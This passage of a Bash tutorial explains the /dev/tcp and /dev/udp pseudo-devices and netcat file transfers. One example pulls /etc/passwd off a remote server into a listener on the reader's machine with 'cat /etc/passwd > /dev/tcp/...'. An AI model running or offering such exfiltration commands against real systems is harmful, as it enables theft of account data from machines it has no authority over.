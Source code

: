 Now with all that out of the way, we can get to the good stuff.

---

## /dev/{tcp,udp}

One of the greatest things (in my opinion) that Bash has added is the ability to interact with objects via tcp or udp. And the way it is accomplished is by way of interacting with the `/dev/tcp` or `/dev/udp` pseudo-device. To interact with a device on your network directly from bash, you would treat it exactly like a file. Since "everything is a file" on linux, if I wanted to send the text "Hello" to the machine 192.168.1.10 on port 1234, I would issue something like this:

```bash
echo -n "Hello" > /dev/tcp/192.168.1.10/1234
```

By redirecting the output of the echo statement to the `/dev/tcp/192.168.1.10/1234` "file", bash will literally send a TCP packet with the raw text of `Hello`, taking care of the TCP handshake and everything. If the remote end does not have a service listening on the other end to complete the handshake, it will eventually time out after about 20 seconds. UDP however, will not time out and happily send the packet(s) across the wire as is the nature of UDP, the Unreliable Damn Protocol.

### So how can I use this in a practical way?

You can interact with any listening process by sending whatever raw data you'd like to it. You can even send entire files with a little help from netcat! Say you were on a server that didn't have netcat or anything similar but you wanted to pull the contents of the file `/etc/passwd` and send it to your workstation. This would be a two-stage process.

#### Sending a file from remote to local

First, on your local workstation:

```bash
nc -lvnp 9090 > ./rhost-passwd
```
...which sets up a netcat listener on all interfaces listening on port 9090, then takes whatever is sent to it and dumps it into the file named `rhost-passwd`.

Second, on the remote server:

```bash
cat /etc/passwd > /dev/tcp/192.168.1.10/9090
```
...which simply sends the content of the /etc/passwd file to `192.168.1.10` on port `9090` right to our netcat listener.

#### Sending a file from local to remote (without opening a port on remote!)

In the same vein, you can *download* a file simply by connecting to a listener.

```bash
# Send a file to whoever connects:
nc -w 2 -lvnp 9090 < /path/to/some/file
```
Note the use of the `-w 2` flag tells netcat to time out after 2 seconds of inactivity (after receiving a connection). Otherwise this would hang indefinitely.
